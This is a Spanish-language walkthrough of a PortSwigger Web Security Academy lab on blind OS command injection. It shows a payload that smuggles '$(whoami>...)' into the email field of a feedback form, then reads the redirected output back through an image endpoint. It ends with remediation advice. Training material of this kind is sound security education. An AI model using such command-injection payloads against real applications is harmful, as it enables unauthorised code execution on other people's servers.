



# Blind OS command injection with output redirection

**Plataforma:** PortSwigger — Web Security Academy  
**Categoría:** OS command injection  
**Dificultad:** PRACTITIONER  
**Herramientas:** Burp Suite (Repeater)  

### 📂 Estructura de Archivos
* `README.md`: Reporte detallado de la vulnerabilidad y explotación.
* `assets/`: Directorio con las capturas de evidencia.

---

### Enunciado

El lab contiene una vulnerabilidad de OS command injection **ciega** en la función de retroalimentación (feedback). La aplicación ejecuta un comando de shell que contiene los detalles provistos por el usuario, pero **la salida del comando no se devuelve en la respuesta**.

Existe una carpeta escribible en `/var/www/images/`, desde la cual la aplicación sirve las imágenes del catálogo de productos. Se puede **redirigir la salida** del comando inyectado a un archivo en esa carpeta y luego recuperar su contenido usando la URL de carga de imágenes.

Para resolver el lab hay que ejecutar el comando `whoami` y recuperar su salida.

### 1. Reconocimiento

La página `GET /feedback` muestra un formulario con los campos **Name**, **Email**, **Subject** y **Message**. Al enviarlo, el navegador hace un `POST /feedback/submit` con esos campos y un token `csrf`:

```http
POST /feedback/submit HTTP/2
Host: TU-LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded

csrf=...&name=a&email=a@b.com&subject=a&message=a
```

La respuesta es un `200 OK` con un JSON vacío (`{}`): no refleja ninguna salida de comando.

Por otro lado, las imágenes del catálogo se sirven a través de un endpoint con un parámetro `filename` que lee archivos desde `/var/www/images/`:

```http
GET /image?filename=39.jpg
```


### 2. Análisis de Vulnerabilidad

El backend construye por detrás un comando de shell que incorpora los datos del formulario (el `email`, para registrar o notificar el feedback). Como la entrada se concatena **sin sanitizar**, es posible inyectar comandos arbitrarios.

Al ser una inyección **ciega**, la respuesta no devuelve la salida. Pero a diferencia del lab de retardos de tiempo, aquí hay un canal más directo: se **redirige la salida** del comando a un archivo dentro de `/var/www/images/` (carpeta escribible y servida públicamente) y luego se lee ese archivo con el endpoint `GET /image?filename=...`.

### 3. Explotación

#### El problema: separadores de comando rompen el guardado

Los separadores clásicos (`;`, `&`, `||`) **terminan** el comando original. Al hacerlo, el valor del `email` que la aplicación intenta guardar queda vacío o inválido, y el backend responde `500 Internal Server Error` con el mensaje `"Could not save"`:

```http
HTTP/2 500 Internal Server Error
Content-Type: application/json; charset=utf-8

"Could not save"
```

Este error **no** proviene de la shell, sino de la lógica de la aplicación al intentar guardar un email con formato inválido.

#### La solución: sustitución de comandos

En lugar de terminar el comando, se usa **sustitución de comandos** `$(...)` *dentro* de un email válido. Así el `whoami` se ejecuta como parte del valor del campo, sin cortar el comando original:

```
email=x@x.com$(whoami>/var/www/images/whoami.txt)
```

Que URL-encoded queda:

```http
POST /feedback/submit HTTP/2
Host: TU-LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded

csrf=...&name=a&email=x%40x.com%24%28whoami%3e%2fvar%2fwww%2fimages%2fwhoami.txt%29&subject=a&message=a
```


*La inyección va en el campo `email`. La respuesta es `200 OK` con body vacío.*

Por qué funciona `x@x.com$(whoami>/var/www/images/whoami.txt)`:
* `$(...)` ejecuta `whoami` y **redirige su salida** al archivo `/var/www/images/whoami.txt` con `>`.
* Como el `stdout` del comando se redirige al archivo, la sustitución `$(...)` se expande a **vacío**.
* El email resultante queda como `x@x.com` → un string con formato válido que la aplicación **guarda sin error** (adiós `"Could not save"`).

> **Detalle clave:** el prefijo `x@x.com` es imprescindible. Sin él (`email=$(whoami>...)`), tras la expansión a vacío el email queda sin valor y la aplicación vuelve a responder `500 "Could not save"`. El payload debe producir, tras la sustitución, un email con formato válido.

### 4. Resultado

Una vez enviado el feedback con `200 OK`, el archivo `whoami.txt` ya está escrito en `/var/www/images/`. Se recupera su contenido usando la URL de carga de imágenes:

```http
GET /image?filename=whoami.txt
```


*La respuesta devuelve la salida de `whoami`: `peter-NNEhjH`.*

Esa salida es la evidencia de la ejecución y resuelve el lab:


*El lab queda marcado como resuelto.*

---

### 🛡️ Remediación (Developer Perspective)
* **No invocar la shell con datos del usuario:** evitar construir cadenas de comando concatenando entrada del cliente. Usar APIs que separen el programa de sus argumentos (p. ej. `execve` con un arreglo de argumentos), de modo que la entrada nunca se interprete como sintaxis de shell.
* **Validar con lista blanca:** el campo `email` debería validarse contra un formato estricto, rechazando metacaracteres de shell como `|`, `&`, `;`, `` ` `` o `$()`.
* **Aislar y restringir la carpeta de imágenes:** el endpoint `GET /image?filename=...` no debería permitir leer archivos arbitrarios de una carpeta en la que otro proceso puede escribir. Servir las imágenes por un identificador controlado en vez de un nombre de archivo libre, y mantener separados los directorios de datos de usuario y de contenido servido.
* **Principio de mínimo privilegio:** el proceso que ejecuta el comando debe correr con los permisos mínimos necesarios para limitar el impacto de una ejecución inesperada.
